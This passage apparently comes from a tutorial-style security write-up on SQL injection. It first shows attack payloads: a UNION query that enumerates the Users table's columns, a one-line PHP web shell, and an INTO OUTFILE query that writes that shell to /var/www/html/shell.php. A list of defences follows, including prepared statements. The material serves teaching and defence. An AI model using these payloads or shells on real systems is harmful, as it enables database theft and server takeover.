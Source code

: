 ```sql
SELECT Title, Body FROM Emails WHERE Username='jesus' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='Users'
```
### Gain a Web Shell
Another way to escalate SQLi is getting a web shell on the server, for example if we are attacking a php website, the following code will take the request parameter named *cmd* and execute it as a system command.
```php
<? system($_REQUEST['cmd']); ?>
```
Also you can upload php code to location in the web server you can access, . For example, you can write the password of a nonexistent user and the PHP code `<? system($_REQUEST['cmd']); ?>` into a file located at */var/www/html/shell.php* on the target server:
```sql
SELECT Password FROM Users WHERE Username='abc'UNION SELECT "<? system($_REQUEST['cmd']); ?>"INTO OUTFILE "/var/www/html/shell.php"
```
Since the password will be blank because not exist, you are uploading the php script in that file, then you can simply access the file and execute any command you wish:
`http://www.example.com/shell.php?cmd=COMMAND`

## How to prevent SQLi vulnerabilites?
- Primary Defenses:
  - **Use of Prepared Statements (Parameterized Queries)**
    - Code Vulnerable to SQLi
    - ![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli2.jpg)
    - The user supplied input *customer name* is embedded directly into the SQL statement 
    - The construction of the SQL statement is performed in two steps:
    - The application specifies the query structure with placeholders for each user input
    - The application specifies the content of each placeholder
    - Code not vulnerable to SQLi
    - ![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli3.jpg)
  - Use of Stores Procedures
    - Is a batch of statements grouped together and stored  in the database
    - Not always safe from SQL Injection, still need to be called in a parameterized way
  - Whitelist Input Validation
    - Defining what values are authorized, everything else is unauthorized
    - Useful for values that cannot be specified as parameter placeholders, such as a table name
  - Escaping All User Supplied Input
    - Only used as last resort
- Optional Defenses:
  - Least Privilege
    - The application should use the lowest possible level of privileges when accessing the database
    - Any unnecessary default functionality in the database should be removed or disabled